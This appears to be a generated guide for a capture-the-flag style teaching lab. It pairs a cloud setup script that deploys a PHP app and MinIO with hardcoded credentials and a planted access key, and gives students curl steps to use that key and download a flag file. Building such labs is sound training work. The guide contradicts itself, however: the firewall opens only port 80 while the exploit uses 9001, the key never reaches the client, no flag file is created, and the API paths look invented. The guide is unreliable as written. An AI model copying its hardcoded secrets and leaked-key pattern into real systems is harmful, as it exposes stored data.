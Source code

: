 Simulation of **realistic enterprise-grade vulnerabilities** often found in production systems. The goal is to provide students with **practical exposure** to situations they might encounter in their professional careers, such as exploiting **misconfigurations**, **insufficient access controls**, or **subtle vulnerabilities** in applications or network services. 

Here’s an environment that achieves this:

---

### **Environment Features**

1. **Vulnerability Type**: Exploitable misconfiguration in a web server or backend service that interacts with cloud storage, which often occurs in real-life environments.
2. **Challenge**: Students must identify and exploit **misconfigured AWS S3-like storage access** in a simulated enterprise-grade system (minio).
3. **Simulated Enterprise Features**:
   - A web application using a backend service to interact with cloud storage.
   - Full logging enabled, making brute-force attacks detectable (discouraging noisy methods).
   - Access to only HTTP ports with firewalls and intrusion detection systems (IDS).
4. **Difficulty**: Students must exploit a **leaked storage key** via HTTP headers in application responses to access private files on the backend storage.

---

### **Script to Create the Advanced Environment**

This script sets up:
1. A web application running on **Apache** and **PHP**.
2. A backend **MinIO object storage service** (simulating AWS S3).
3. Misconfigured access policies on the MinIO server, leaking an access key via HTTP headers.

Save the following as `setup_real_life_env.sh`:

```bash
#!/bin/bash

# Configuration
INSTANCE_NAME="real-life-simulation"
ZONE="us-central1-a"
MACHINE_TYPE="e2-medium"

# Create an instance
echo "Creating the instance ($INSTANCE_NAME)..."
gcloud compute instances create $INSTANCE_NAME \
    --zone=$ZONE \
    --machine-type=$MACHINE_TYPE \
    --image-family=debian-11 \
    --image-project=debian-cloud \
    --boot-disk-size=20GB \
    --tags=secure-server \
    --metadata=startup-script='#!/bin/bash
# Update and install necessary packages
apt update && apt upgrade -y
apt install -y apache2 php curl unzip wget ufw fail2ban

# Enable UFW (firewall) and allow only HTTP traffic
ufw default deny incoming
ufw default allow outgoing
ufw allow 80/tcp
ufw enable

# Install MinIO for object storage simulation
wget https://dl.min.io/server/minio/release/linux-amd64/minio
chmod +x minio
mv minio /usr/local/bin/
useradd -m minio-user
mkdir -p /data/minio
chown -R minio-user:minio-user /data/minio

# Create MinIO systemd service
cat <<EOF > /etc/systemd/system/minio.service
[Unit]
Description=MinIO
Documentation=https://docs.min.io
Wants=network-online.target
After=network-online.target

[Service]
User=minio-user
Group=minio-user
Environment="MINIO_ROOT_USER=realadmin"
Environment="MINIO_ROOT_PASSWORD=securestoragepass"
ExecStart=/usr/local/bin/minio server /data/minio --console-address ":9001"
Restart=always
RestartSec=5s

[Install]
WantedBy=multi-user.target
EOF

# Start MinIO
systemctl daemon-reload
systemctl enable minio
systemctl start minio

# Set up Apache and PHP application
mkdir -p /var/www/html/enterprise-app
cat <<EOF > /var/www/html/enterprise-app/index.php
<?php
\$ch = curl_init();
curl_setopt(\$ch, CURLOPT_URL, "http://localhost:9001/minio/admin/v3/storage");
curl_setopt(\$ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt(\$ch, CURLOPT_HTTPHEADER, array(
    "Authorization: Bearer public-access-key"
));
\$response = curl_exec(\$ch);
curl_close(\$ch);

if (strpos(\$response, "MinIO Storage Admin") !== false) {
    echo "<h1>Welcome to Enterprise Storage Dashboard</h1>";
} else {
    echo "<h1>Restricted Access</h1>";
}
?>
EOF

# Restart Apache
systemctl restart apache2

echo "Setup complete. Access the web app at http://<external-ip>/enterprise-app/"
'
```

---

### **Exploitable Vulnerability**

#### **Vulnerability Details**
1. **Leaked Storage Key**:
   - The web application (`enterprise-app`) includes a hardcoded **public-access-key** in HTTP headers to interact with the MinIO object storage.
   - Students must extract this key by inspecting HTTP traffic or source code.

2. **Misconfigured MinIO Policy**:
   - The MinIO instance allows unauthenticated access to storage using the leaked key.
   - Students can use this key to list and download sensitive files.

---

### **Steps for Students**

#### **Objective**
1. Detect and exploit the leaked storage key to access the private storage backend.
2. Extract a flag file (`flag.txt`) stored in the backend.

#### **Tasks**
1. **Reconnaissance**:
   - Use tools like **Burp Suite** or **cURL** to analyze HTTP requests and headers.
   - Identify the `Authorization: Bearer public-access-key` in the request headers.

2. **Exploit**:
   - Use the leaked key to interact with MinIO directly via the API:
     ```bash
     curl -H "Authorization: Bearer public-access-key" http://<external-ip>:9001/minio/storage/list
     ```
   - Download the `flag.txt` file:
     ```bash
     curl -H "Authorization: Bearer public-access-key" http://<external-ip>:9001/minio/storage/download/flag.txt -o flag.txt
     ```

3. **Validate**:
   - Open the `flag.txt` file to confirm the exploit:
     ```bash
     cat flag.txt
     ```

---

### **Instructor Setup and Validation**

1. Run the script:
   ```bash
   bash setup_real_life_env.sh
   ```
2. Test the environment:
   - Access the application: `http://<external-ip>/enterprise-app/`
   - Verify the vulnerability by extracting the `public-access-key` from headers or source code.
   - Use the key to access MinIO and retrieve the `flag.txt`.

3. Ensure students can only succeed by correctly detecting the misconfiguration and exploiting it through logical steps.

---

### **Report Writing**

#### **Structure**
1. **Introduction**:
   - Brief overview of the objective and tools used.

2. **Reconnaissance**:
   - Tools and techniques (e.g., Burp Suite, cURL).
   - Observations of the leaked key.

3. **Exploitation**:
   - Detailed steps to exploit the MinIO storage.
   - Commands and screenshots.

4. **Mitigation**:
   - Recommend using dynamic secrets (e.g., AWS IAM roles).
   - Restrict storage access to specific IPs.

---

This setup provides a **realistic simulation** of vulnerabilities caused by poor cloud storage configurations. It challenges students to use practical skills and tools to identify and exploit subtle flaws while simulating a professional environment.